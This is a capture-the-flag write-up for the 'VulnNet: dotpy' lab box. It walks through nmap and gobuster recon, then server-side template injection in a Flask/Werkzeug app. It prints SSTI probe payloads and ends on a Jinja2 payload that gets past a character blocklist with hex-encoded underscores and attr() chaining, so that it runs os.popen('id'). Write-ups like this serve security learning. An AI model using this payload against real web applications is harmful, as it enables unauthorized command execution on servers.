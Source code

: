 ```yaml
---
layout: post
title:  "VulnNet: dotpy"
date:   2022-03-01 16:18:00 +0000
tags: python
---
```


## [0x01] Outline

![Subscribe](/assets/img/vulnnet_dotpy/icon.png){: w="100" .left}

VulnNet: dotpy is a medium difficulty box with a focus on `python`.


## [0x02] Recon


### nmap

Running nmap we find port `8080` open

```bash
nmap -sC -sV -oA nmap/scan -p- -v 10.10.132.101

---snip---
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.132.101:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
---snip---
```
### website
Browsing to `http://10.10.132.101:8080` we're greeted with a login / sign up form. Many of the links are Anchors that lead nowhere.
Since we know the page is loading we can run our `gobuster` scans, and we'll need to add `-b 403` to force the scan.

![Subscribe](/assets/img/vulnnet_dotpy/01.png){: w="300" .left}

### gobuster
```bash
gobuster dir -u http://10.10.132.101:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -o main.gobuster -b 403

cat main.gobuster 
/login                (Status: 200) [Size: 5589]
/register             (Status: 200) [Size: 5021]
/logout               (Status: 302) [Size: 219] [--> http://10.10.132.101:8080/login]
```


### purse
While our scan is running we'll quickly clone the site and check with `pursue`, but there isn't anything of note here.

```bash
wget -rkpN -e robots=off http://10.10.132.101:8080
pursue --query | sort -u
pursue --domain | sort -u
pursue --endpoints | sort -u
```

### Register and Login

Clicking the `Create New Account` takes us to a `/register` page. We'll use `admin`, `admin@admin.com` and password of `admin`, we're prompted to log in.

Once logged in we see an application dashboard we oddly have a user profile picture and the name of `Staradmin`.  It's possible that using `admin` as our username has caused us to get picked off the top of the database or maybe this is what was meant to happen?

![Dashboard](/assets/img/vulnnet_dotpy/02.png){: w="300" .left}

### Walking the site

Most of the links are only Anchor tags so are a dead end.  This took me about 2 hours to find a vulnerability, I tried clicking every button and downloading every file and page I could find.


### SSTI

After trying for an `LFI` at `http://10.10.132.101:8080/etc/passwd` you can see that the path `/etc/passwd` is reflected in the page.
Since our `nmap` banner grab says this site is running `Werkzeug` we can try `Server Side Template Injection (SSTI)`

![404](/assets/img/vulnnet_dotpy/03.png){: w="600" .left}

Trying to go to the path `http://10.10.132.101:8080/{{ 7 * 7 }}` shows the answer `49`.

[HackTricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) examples for other engines are below; 
- {{7*7}}
- ${7*7}
- <%= 7*7 %>
- ${{7*7}}
- #{7*7}

![404](/assets/img/vulnnet_dotpy/04.png){: w="600" .left}

Navigating to `http://10.10.132.101:8080/{{config}}` lists all the config items from with in the Python web server, but we're unable to use a full stops / period `.` in our query as there is some sort of blacklist being checked. After some testing we're unable to use `.`, `_`, `[`, `]`, if we do, we get redirected to a `403` blocked page error. 

## Research

After about a days research I came across this post [https://gusralph.info/jinja2-ssti-research/](https://gusralph.info/jinja2-ssti-research/) that goes in the depths on how a `Web Application Firewall (WAF)` might block certain characters and how to bypass the filter with encoding.

It would seam that this box is using the methods detailed in this paper as its inspiration.  The answer is given to us, but I took another few hours to dive into the topic to understand what is happening and how this works. In real PenTests and Bug Bounty situations the answer may need adjustments made.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
